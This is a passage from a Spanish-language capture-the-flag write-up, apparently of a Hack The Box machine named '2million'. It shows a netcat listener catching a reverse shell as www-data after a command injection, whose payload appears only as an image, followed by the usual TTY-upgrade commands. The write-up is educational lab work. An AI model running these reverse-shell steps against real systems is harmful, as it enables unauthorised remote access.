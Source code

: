 El siguiente paso, será lograr obtener acceso al sistema a través de una Reverse Shell. Para ello, nos pondremos en escucha con `nc`.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
```

Ejecutaremos la siguiente `Command Injection` que nos proporcione la Reverse Shell.

<figure><img src="../../.gitbook/assets/5079_vmware_WnqOiiQOq2.png" alt=""><figcaption></figcaption></figure>

Verificamos que hemos ganado acceso al sistema y nos encontramos como usuario `www-data`. Al obtener la reverse shell, mejoramos la calidad de la shell con los siguientes pasos para obtener una TTY interactiva.

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.221] 45582
bash: cannot set terminal process group (1173): Inappropriate ioctl for device
bash: no job control in this shell
www-data@2million:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@2million:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo;fg
[1]  + continued  nc -nlvp 443
                              reset xterm
www-data@2million:~/html$ export TERM=xterm
www-data@2million:~/html$ export SHELL=bash
www-data@2million:~/html$ stty rows 46 columns 230
```

## Initial Access
